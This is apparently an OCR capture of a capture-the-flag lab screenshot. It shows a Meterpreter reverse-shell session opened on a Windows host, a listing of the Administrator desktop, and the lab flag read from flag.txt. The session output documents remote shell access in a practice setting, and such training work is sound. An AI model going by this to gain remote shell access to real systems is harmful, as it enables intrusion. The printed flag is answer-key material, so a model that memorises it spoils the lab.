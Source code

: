 ```
[*] Meterpreter session 1 opened (10.2.111.254:8888 -> 10.10.101.132:49858) at 2024-12-11 12:16:35 -0600

meterpreter > 
Listing: C:\users\Administrator\Desktop
=======================================

Mode             Size  Type  Last modified              Name
----             ----  ----  -------------              ----
100666/rw-rw-rw  527   fil   2016-06-21 10:36:17 -0500  EC2 Feedback.website
-
100666/rw-rw-rw  554   fil   2016-06-21 10:36:23 -0500  EC2 Microsoft Windows Guide.w
-                                                       ebsite
100666/rw-rw-rw  282   fil   2021-03-17 10:13:27 -0500  desktop.ini
-
100666/rw-rw-rw  23    fil   2024-11-11 21:42:45 -0600  flag.txt
-

meterpreter > cat flag.txt
THM{PHISHING_CHRISTMAS}meterpreter > 


```